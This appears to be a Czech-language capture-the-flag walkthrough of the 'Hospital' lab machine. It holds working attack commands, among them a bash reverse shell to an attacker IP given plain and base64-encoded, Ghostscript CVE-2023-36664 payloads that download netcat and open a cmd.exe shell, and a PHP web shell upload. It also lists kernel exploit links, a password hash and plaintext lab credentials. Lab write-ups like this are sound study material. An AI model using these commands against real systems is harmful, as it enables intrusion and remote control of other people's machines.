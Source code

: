 # Hospital

-nmap -> XY portů -> 80, 8080

-Na 8080 login, vytvořit účet

-Lze uploadovat, nebere php

-Dirbuster -> složka uploads -> není permissions

-Nebere .php -> nahrát **powny-shell.phar** a spustit\


**Vytvořit reverse shell, zakodovat do base 64 a pomocí echo nahrát**

```
sh -i >& /dev/tcp/10.10.14.236/4444 0>&1

c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjM2LzQ0NDQgMD4mMQ==

echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjM2LzQ0NDQgMD4mMQ== | base64 -d | bash
```

-Zjištění verze systému (uname -r) a nalezení exploitu na daný kernel ([https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post\_page-----791ad6dd24ed--------------------------------](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629?source=post_page-----791ad6dd24ed--------------------------------))

-Přesun přes wget, spuštění, root, nalezení hashe pro drwilliams&#x20;

$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/\
\
-Uživatelské údaje ke stránce na portu 80\
drwilliams\
qwe123!@#

-Píše si s drbrownem, má upravit .eps které spravuje GhostScripts

-Využít exploit na GhostScripts ([https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection))

-Nakopírovat si nc.exe ([https://github.com/int0x33/nc.exe/](https://github.com/int0x33/nc.exe/))

**Spustit http server**\
python3 -m http.server 9000

**Vytvořit .eps s payloadem**\
python3 CVE\_2023\_36664\_exploit.py --inject --payload "curl 10.10.14.236:9000/nc64.exe -o nc.exe" --filename file.eps

-Odpovědět na mail a do přílohy poslat vygenerovaný .eps = nahraje se netcat

**Vygenerovat další payload**\
python3 CVE\_2023\_36664\_exploit.py --inject --payload "curl 10.10.14.236 4444 -e cmd.exe" --filename file.eps

-Spustit netcat na 4444 a poslat nový payload = spustí se cmd přes předem nahraný netcat\
\
-Otevře se reverse shell na drbrowna, ten má v ghostscripts.bat heslo k RDP (Remmina)

drbrown\
chr!$br0wn

-Na ploše user flag

-Přesunout se do /xampp/htdocs

**Nahrát shell**\
-spustit http server ze složky kde je powny-shell.phar (port 8083)\
-nakopírovat shell -> curl 10.10.16.68:8083/powny-shell.phar -o shell.php\
-jelikož se nahrává do /htdocs, soubor je dostupný pod portem 80\
-redirect -> [https://10.10.11.241/shell.php](https://10.10.11.241/shell.php)\
-root flag na /Users/Administrator/Desktop

